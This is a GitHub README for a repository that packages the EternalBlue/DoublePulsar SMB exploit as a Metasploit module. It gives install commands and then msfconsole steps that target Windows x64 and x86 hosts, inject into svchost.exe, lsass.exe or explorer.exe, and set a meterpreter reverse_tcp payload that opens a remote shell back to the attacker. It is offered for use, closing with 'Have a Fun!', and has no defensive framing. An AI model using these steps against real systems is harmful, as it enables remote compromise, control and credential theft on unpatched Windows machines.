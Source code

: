# Eternalblue-Doublepulsar-Metasploit

# How to Install
<pre>
~]# dpkg --add-architecture i386 && apt-get update -y && apt-get install wine32 -y
~]# git clone https://github.com/grglzrv/Eternalblue-Doublepulsar-Metasploit.git
~]# cd Eternalblue-Doublepulsar-Metasploit
~]# cp eternalblue_doublepulsar.rb /usr/share/metasploit-framework/modules/exploits/windows/smb
<br>
<strong red>Note !!!</strong>: Also copy 'deps' directory to /usr/share/metasploit-framework/modules/exploits/windows/smb
<br>
~]# mkdir -p /root/.wine/drive_c/
</pre>
# How to use
<pre>
~]# service postgresql start
~]# service postgresql enable
~]# msfconsole
- reload_all 
- use exploit/windows/smb/eternalblue_doublepulsar
- show options
</pre>
<br>
 ## For Windows x64 
<br>
<pre>
 - set RHOST (Target IP)
 - set PROCESSINJECT svchost.exe or set PROCESSINJECT lsass.exe
 - set TARGETARCHITECTURE x64
 - set payload windows/x64/meterpreter/reverse_tcp
 - set LHOST (Local IP, check it with 'ip a')
 - show targets
 - set target 8
 - run or exploit
 </pre>
 <br>
 ## For Windows x86
 <br>
<pre>
 - set RHOST (Target IP)
 - set PROCESSINJECT svchost.exe or set PROCESSINJECT explorer.exe
 - set TARGETARCHITECTURE x86
 - set payload windows/meterpreter/reverse_tcp
 - set LHOST (Local IP, check it with 'ip a')
 - show targets
 - set target 8
 - run or exploit
 </pre>
 ## Have a Fun! :)
